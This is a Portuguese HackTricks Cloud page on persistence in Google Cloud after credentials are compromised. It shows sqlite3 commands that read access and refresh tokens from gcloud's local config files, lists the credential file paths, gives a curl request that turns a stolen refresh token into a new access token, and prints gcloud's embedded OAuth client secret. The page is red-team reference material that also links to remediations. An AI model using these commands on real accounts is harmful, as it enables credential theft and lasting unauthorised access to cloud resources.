# GCP - Persistência Não-svc

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

Essas são técnicas úteis uma vez que, de alguma forma, você comprometeu algumas credenciais GCP ou máquina em execução em um ambiente GCP.

## Sequestro de Token

### Tokens de Usuário Autenticado

Para obter o **token atual** de um usuário, você pode executar:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Verifique nesta página como **usar diretamente este token usando gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Para obter os detalhes para **gerar um novo token de acesso**, execute: 

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
Também é possível encontrar tokens de atualização em **`$HOME/.config/gcloud/application_default_credentials.json`** e em **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Para obter um novo token de acesso atualizado com o **token de atualização**, ID do cliente e segredo do cliente, execute:
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

A validade dos tokens de atualização pode ser gerenciada em **Admin** > **Segurança** > **Controle de sessão do Google Cloud**, e por padrão está definida como 16h, embora possa ser configurada para nunca expirar:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Fluxo de autenticação

O fluxo de autenticação ao usar algo como `gcloud auth login` abrirá um prompt no navegador e, após aceitar todos os escopos, o navegador enviará uma solicitação como esta para a porta http aberta pela ferramenta:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Então, o gcloud usará o estado e o código com um `client_id` hardcoded (`32555940559.apps.googleusercontent.com`) e **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) para obter os **dados finais do token de atualização**.

{% hint style="danger" %}
Note que a comunicação com localhost é feita em HTTP, então é possível interceptar os dados para obter um token de atualização, no entanto, esses dados são válidos apenas uma vez, então isso seria inútil, é mais fácil apenas ler o token de atualização do arquivo.
{% endhint %}

### Escopos do OAuth

Você pode encontrar todos os escopos do Google em [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) ou obtê-los executando:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

É possível ver quais escopos a aplicação que **`gcloud`** usa para autenticar pode suportar com este script:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
Depois de executá-lo, foi verificado que este aplicativo suporta esses escopos:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
É interessante ver como este aplicativo suporta o escopo **`drive`**, o que poderia permitir a um usuário escalar do GCP para o Workspace se um atacante conseguir forçar o usuário a gerar um token com este escopo.

**Verifique como** [**abusar disso aqui**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### Contas de Serviço

Assim como com usuários autenticados, se você conseguir **comprometer o arquivo da chave privada** de uma conta de serviço, você será capaz de **acessá-la geralmente pelo tempo que desejar**.\
No entanto, se você roubar o **token OAuth** de uma conta de serviço, isso pode ser ainda mais interessante, porque, mesmo que por padrão esses tokens sejam úteis apenas por uma hora, se a **vítima excluir a chave de API privada, o token OAuth ainda será válido até expirar**.

### Metadados

Obviamente, enquanto estiver dentro de uma máquina em execução no ambiente GCP, você será capaz de **acessar a conta de serviço anexada a essa máquina contatando o endpoint de metadados** (observe que os tokens OAuth que você pode acessar neste endpoint geralmente são restritos por escopos).

### Remediações

Algumas remediações para essas técnicas são explicadas em [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

## Referências

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>
